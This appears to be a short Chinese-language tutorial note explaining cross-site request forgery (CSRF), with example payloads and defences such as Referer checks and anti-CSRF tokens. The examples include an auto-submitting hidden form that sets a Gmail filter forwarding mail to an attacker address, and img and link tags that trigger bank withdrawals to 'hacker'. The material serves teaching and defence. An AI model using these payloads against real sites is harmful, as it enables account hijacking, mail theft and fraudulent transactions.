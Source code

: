 # CSRF 跨站请求伪造
跨站请求伪造(Cross-site request forgery)，通常缩写为SCRF或XSRF，是一种挟制用户在当前已登录的Web应用程序上执行非本意的攻击方式，跟跨站脚本(XSS)相比，XSS利用的是用户对指定网站的信任，CSRF利用的是网站对用户网页浏览器的信任。

这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的
eg:
隐藏的表单：
```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data">
    <input type="hidden" name="cf2_emc" value="true"/>
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/>
    .....
    <input type="hidden" name="irf" value="on"/>
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/>
</form>
<script>
    document.forms[0].submit();
</script>
```
img标签：
```html
<img src="http://bank.example/withdraw?amount=10000&for=hacker" >
```
a标签链接
```html
<a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
<a/>
```

## 防御措施
### 检查Referer字段
HTTP请求头中的referer字段标明请求来源于哪个地址，根据referer字段确认请求是否来自预期的安全网站，以识别恶意的访问。


### 添加校验token
由于CSRF的本质在于攻击者欺骗用户去访问自己设置的地址，所有如果要求在访问敏感数据请求时，要求用户提供不保存在cookie中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法再运行CSRF攻击。

参考文献：
- [跨站请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- [前端安全系列(2)：如何防止CSRF攻击](https://segmentfault.com/a/1190000016659945)
